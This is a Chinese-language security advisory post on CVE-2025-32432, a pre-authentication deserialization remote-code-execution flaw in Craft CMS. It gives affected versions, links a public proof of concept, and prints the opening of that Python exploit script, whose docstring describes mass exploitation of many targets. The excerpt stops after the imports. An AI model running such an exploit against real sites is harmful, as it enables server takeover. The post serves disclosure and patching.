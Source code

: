 #  CVE-2025-32432｜Craft CMS反序列化代码执行漏洞（POC）   
 信安百科   2025-05-02 02:20  
  
**0x00 前言**  
  
## Craft CMS是一个开源的内容管理系统，它专注于用户友好的内容创建过程，可以用来创建个人或企业网站也可以搭建企业级电子商务系统。  
##   
## Craft界面简洁优雅，逻辑清晰明了，是一个高度自由，高度自定义设计的平台。虽然不需要专业的编程知识，要对模板语法有所了解才能很好的使用。  
  
  
  
**0x01 漏洞描述**  
  
  
构造恶意请求利用generate-transform端点触发反序列化，执行任意代码，控制服务器。  
  
  
  
**0x02 CVE编号**  
  
  
CVE-2025-32432  
  
  
  
**0x03 影响版本**  
  
  
3.0.0-RC1 ≤ Craft CMS < 3.9.15  
  
4.0.0-RC1 ≤ Craft CMS < 4.14.15  
  
5.0.0-RC1 ≤ Craft CMS < 5.6.17  
  
  
  
**0x04 漏洞详情**  
  
  
POC：  
  
https://github.com/Sachinart/CVE-2025-32432  
```
#!/usr/bin/env python3
"""
CraftCMS CVE-2025-32432 Remote Code Execution Exploit By Chirag Artani
This script automates the exploitation of the pre-auth RCE vulnerability in CraftCMS 4.x and 5.x.
It extracts CSRF tokens and attempts RCE via the asset transform generation endpoint.

The script extracts both CRAFT_DB_DATABASE and HOME directory values to verify successful exploitation.

Usage:
    Single target:
        python3 craftcms_rce.py -u example.com

    Multiple targets:
        python3 craftcms_rce.py -f urls.txt -t 10
"""

import argparse
import concurrent.futures
import re
import requests
import urllib3
import sys
from bs4 import BeautifulSoup
from urllib.parse import urlparse

```